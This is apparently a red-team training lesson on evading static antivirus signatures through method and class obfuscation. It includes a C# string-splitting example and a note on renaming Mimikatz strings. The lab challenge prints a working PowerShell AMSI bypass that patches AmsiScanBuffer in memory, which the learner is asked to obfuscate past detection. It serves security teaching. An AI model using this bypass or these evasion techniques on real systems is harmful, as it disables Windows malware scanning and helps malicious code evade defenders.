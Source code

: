 # Static Code-Based Signature Evasion

Once a troublesome signature is identified, you must decide how to address it. Depending on the signature's strength and type, it may be bypassed using simple obfuscation (see **Obfuscation Principles**) or may require more targeted investigation and remediation. This section provides several solutions for remedying static signatures in functions.

## Layered Obfuscation Taxonomy

The **Layered Obfuscation Taxonomy** outlines reliable solutions, particularly within the *Obfuscating Methods* and *Obfuscating Classes* layers.

### Obfuscating Methods

| Obfuscation Method         | Purpose                                         |
|---------------------------|-------------------------------------------------|
| Method Proxy              | Creates a proxy method or replacement object     |
| Method Scattering/Aggregation | Combine multiple methods into one or split a method into several |
| Method Clone              | Create replicas of a method and randomly call each |

### Obfuscating Classes

| Obfuscation Method        | Purpose                                         |
|--------------------------|-------------------------------------------------|
| Class Hierarchy Flattening | Create proxies for classes using interfaces     |
| Class Splitting/Coalescing | Transfer local variables or instruction groups to another class |
| Dropping Modifiers        | Remove class modifiers (public, private) and make all members public |

Despite the technical terms, these methods can be grouped into core, agnostic techniques applicable to any object or data structure:

- **Splitting or Merging Objects:** Techniques like class splitting/coalescing and method scattering/aggregation.
- **Removing or Obscuring Identifiable Information:** Techniques like dropping modifiers or method cloning.

---

## Splitting and Merging Objects

Splitting or merging objects is similar to concatenation (see **Obfuscation Principles**). The goal is to create a new object or function that breaks the signature while maintaining functionality.

**Example: Obfuscating a Detected String**

Original string detected:

```csharp
string MessageFormat = @"{{""GUID"":""{0}"",""Type"":{1},""Meta"":""{2},""IV"":""{3}"",""EncryptedMessage"":""{4}"",""HMAC"":""{5}""}}";
```

Obfuscated method using a new class:

```csharp
public static string GetMessageFormat
{
    get
    {
        var sb = new StringBuilder(@"{{""GUID"":""{0}"",");
        sb.Append(@"""Type"":{1},");
        sb.Append(@"""Meta"":""{2}"",");
        sb.Append(@"""IV"":""{3}"",");
        sb.Append(@"""EncryptedMessage"":""{4}"",");
        sb.Append(@"""HMAC"":""{5}""}}");
        return sb.ToString();
    }
}

string MessageFormat = GetMessageFormat;
```

Here, class splitting is used to create a new class for the local variable to concatenate. Recognizing when to use a specific method will be covered later.

---

## Removing and Obscuring Identifiable Information

This concept is similar to obscuring variable names (see **Obfuscation Principles**), but specifically targets identified signatures in objects, methods, and classes.

**Example:** In Mimikatz, the string `wdigest.dll` can trigger alerts. Replacing it with a random identifier throughout the code can bypass detection (method proxy technique).

---

## Practical Challenge: Obfuscate a PowerShell Snippet

Using the knowledge from this section, obfuscate the following PowerShell snippet. Use **AmsiTrigger** to visualize signatures.

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Once sufficiently obfuscated, submit the snippet to the webserver at `http://MACHINE_IP/challenge-1.html`. Save the file as `challenge-1.ps1`. If correctly obfuscated, a flag will appear in an alert pop-up.
